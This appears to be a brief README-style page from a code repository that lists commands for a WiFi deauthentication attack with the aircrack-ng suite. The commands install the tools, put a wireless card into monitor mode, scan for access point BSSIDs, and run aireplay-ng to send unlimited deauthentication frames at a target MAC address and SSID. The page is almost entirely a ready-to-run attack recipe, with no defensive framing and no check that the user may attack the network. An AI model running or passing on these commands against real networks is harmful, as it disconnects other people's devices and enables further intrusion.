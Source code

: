 # Installation:

sudo apt install aircrack-ng

## Set WiFi board:
$ sudo airmon-ng

## Create mon0 network:
sudo airmon-ng start wlx24050f4d5af5

## Colect BSSID:
sudo airodump-ng mon0

## Atack
sudo aireplay-ng -0 0 -a MAC_ADDRESS -e MYHomeTest mon0 --ignore-negative-one
 
